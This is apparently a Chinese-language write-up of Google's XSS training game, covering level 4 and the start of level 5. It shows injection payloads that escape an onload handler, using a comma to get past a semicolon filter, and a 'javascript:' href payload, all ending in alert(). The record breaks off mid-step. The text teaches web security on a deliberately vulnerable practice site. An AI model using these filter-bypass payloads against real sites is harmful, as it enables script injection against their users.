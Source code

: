```
Uncaught SyntaxError: Invalid or unexpected token       VM8914 frame?timer=123testgoogle':21 
```

说明单引号起到了作用，使用审查元素，查看，可以看到两个 单引号`'` (浏览器对实体编码进行了decode)， 导致语法错误

```html
<img src="/static/loading.gif" onload="startTimer('1234testgoogle'');">
```

这里有一个知识点：**当浏览器解析标签属性时，会先对值进行 HTML实体编码进行 decode**，这也是为什么，源码中 `&#39;` 会起到作用的原因

因此，为了执行弹框，我们首先需要闭合函数，然后执行 `alert`，尝试使用payload 

```
1');alert('1
```

发现 `;alert('1` 被过滤了

```html
<img src="/static/loading.gif" onload="startTimer('1&#39;)');" />

```

使用 `1')alert('1` 得到结果

```html
<img src="/static/loading.gif" onload="startTimer('1&#39;)alert(&#39;1');" />
```
发现没有被过滤，说明使用分号 `;` 会被过滤了，这里使用 逗号 `,` 来绕过

```
1'),alert('1
```

成功弹框


## level 5
---

页面中 `Sign up` 和 `Next` 功能为简单页面跳转，没有什么作用。

这里注意到 url 中有一个参数 `confirm`

```
https://xss-game.appspot.com/level5/frame/signup?next=confirm
```

尝试修改 `testgoogle`，查看源码，找到输出点 

```html
<a href="testgoogle">Next &gt;&gt;</a>
```

href 可以使用 `javascript:` scheme 来执行 js 代码，payload

```
javascript:alert(1);
```

查看响应
